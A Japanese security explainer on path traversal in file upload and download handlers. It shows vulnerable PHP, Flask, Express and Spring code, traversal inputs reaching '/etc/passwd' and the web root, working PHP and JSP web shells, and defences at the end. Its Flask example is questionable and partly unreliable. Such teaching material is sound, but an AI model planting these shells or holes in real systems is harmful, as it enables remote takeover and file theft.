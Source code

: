 ```yaml
---
title: ファイルアップロードにおけるパストラバーサル攻撃
---
```


### ファイルアップロードにおけるパストラバーサル攻撃について（Webシェルをアップロードする場合）

#### 概要
パストラバーサル（Path Traversal）攻撃では、ファイルアップロード機能を悪用して、攻撃者が意図したディレクトリにファイルを保存し、Webシェルなどの悪意のあるスクリプトをサーバーに配置します。この攻撃により、攻撃者は任意のコード実行やサーバーの完全な制御を得ることができます。サーバーがファイルのパスを適切に制御していない場合、ディレクトリの遡りを利用して任意の場所にファイルを配置することが可能です。

#### 言語別の脆弱性を持つコードの例と攻撃手法

1. **PHP**
   - **脆弱性を持つコードの例:**
     ```php
     if (isset($_FILES['file'])) {
         $uploadDir = 'uploads/';
         $fileName = $_FILES['file']['name'];
         move_uploaded_file($_FILES['file']['tmp_name'], $uploadDir . $fileName);
     }
     ```
   - **攻撃手法:**
     攻撃者は `fileName` に `../../var/www/html/shell.php` のようなパスを指定して、WebルートにWebシェルを配置します。このWebシェルにアクセスすることで、サーバー上で任意のPHPコードを実行できるようになります。

   - **例: Webシェルの内容**
     ```php
     <?php system($_GET['cmd']); ?>
     ```

2. **Python (Flask/Django)**
   - **脆弱性を持つコードの例:**
     ```python
     from flask import Flask, request, send_from_directory
     import os

     app = Flask(__name__)

     @app.route('/download/<path:filename>', methods=['GET'])
     def download_file(filename):
         return send_from_directory('uploads/', filename)
     ```
   - **攻撃手法:**
     このコードでは、`filename` がユーザー入力に基づいて直接処理されています。攻撃者は、`../../etc/passwd` などのパスを入力することで、サーバー上の任意のファイルを取得できます。たとえば、以下のようなURLをリクエストします:
     ```
     http://example.com/download/../../etc/passwd
     ```
     これにより、システムのパスワードファイルをダウンロード可能となります。

3. **Node.js (Express)**
   - **脆弱性を持つコードの例:**
     ```javascript
     const express = require('express');
     const path = require('path');
     const app = express();

     app.get('/download/:filename', (req, res) => {
         const filename = req.params.filename;
         const filePath = path.join(__dirname, 'uploads', filename);
         res.sendFile(filePath);
     });

     app.listen(3000);
     ```
   - **攻撃手法:**
     Node.jsでも、`filename` にパストラバーサルを用いた入力（例: `../../../etc/passwd`）を指定することで、サーバー上の任意のファイルにアクセスできます。以下のURLをリクエストします:
     ```
     http://example.com/download/../../../etc/passwd
     ```
     これにより、システムの重要なファイルが漏洩します。


4. **Java (Spring)**
   - **脆弱性を持つコードの例:**
     ```java
     @PostMapping("/upload")
     public String handleFileUpload(@RequestParam("file") MultipartFile file) {
         String uploadDir = "uploads/";
         Path filePath = Paths.get(uploadDir + file.getOriginalFilename());
         Files.copy(file.getInputStream(), filePath);
         return "File uploaded!";
     }
     ```
   - **攻撃手法:**
     攻撃者は `file.getOriginalFilename()` に `../../../../var/www/html/shell.jsp` のようなパスを設定し、WebルートにJSPベースのWebシェルを配置します。これにより、リモートで任意のJavaコードを実行可能です。

   - **例: Webシェルの内容**
     ```jsp
     <%
         String cmd = request.getParameter("cmd");
         Process p = Runtime.getRuntime().exec(cmd);
         java.io.InputStream in = p.getInputStream();
         int a = -1;
         while((a = in.read()) != -1) {
             out.print((char)a);
         }
         in.close();
     %>
     ```

#### 言語による差異
全ての言語において、パストラバーサル攻撃は成立する可能性があります。サーバーがパスの操作において適切な制限を行わない場合、攻撃者は任意の場所にWebシェルを配置することができます。

PythonやNode.jsでアップロードしたWebシェルを直接実行するのは現実的には困難です。これは、Webサーバーの設定やアプリケーションの構成上、アップロードされたファイルが自動的にスクリプトとして実行されるケースが少ないためです。例えば、PHPやJavaであれば、Webサーバーが自動的にスクリプトを実行する設定になっていることが多いため、Webシェル攻撃が成立しやすいですが、PythonやNode.jsでは通常そのような挙動を取らないため、別のアプローチが必要になります。

#### 防止策
1. **ファイルパスの正規化と検証**
   アップロードされたファイルのパスを正規化し、ディレクトリを遡るようなパターン（例: `../`）が含まれていないか検査します。PHPなら `realpath()`、Javaなら `Paths.get().normalize()` などの方法で、安全なパスに変換します。

2. **保存先ディレクトリの固定化**
   ファイルの保存先ディレクトリを固定し、絶対パスの指定やディレクトリを遡る操作を防ぎます。また、ファイル名をランダムな名前に変換し、元のファイル名に依存しない設計にします。

3. **ファイル名のサニタイズ**
   ファイル名から特殊文字や不正なパス構造（例: `../`）を除去し、安全なファイル名に変換します。

4. **ディレクトリのアクセス権制御**
   アップロードされたファイルがWebサーバーの公開ディレクトリに保存されないようにし、スクリプト実行権限を持たないディレクトリに配置します。

5. **入力検証の強化**
   ファイル名やパスの入力に対して厳格な検証を行い、攻撃者が意図的にパスを操作できないようにします。

